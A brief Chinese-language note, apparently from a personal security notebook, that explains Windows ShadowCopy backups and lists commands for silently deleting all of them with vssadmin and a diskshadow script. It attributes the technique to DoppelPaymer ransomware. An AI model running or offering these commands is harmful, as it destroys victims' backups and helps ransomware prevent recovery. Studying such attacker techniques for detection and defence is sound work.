 # shadowcopy

ShadowCopy用来备份Windows磁盘文件数据。  


## 删除ShadowCopy的方法
### 使用vssadmin
```cmd
vssadmin.exe Delete Shadows /All /Quiet
```

### 使用diskshadow  
```cmd
diskshadow.exe /s a.txt
```
a.txt内容为：  
```
delete shadows all
exit
```

来源：DoppelPaymer勒索软件  


2021/7/1  

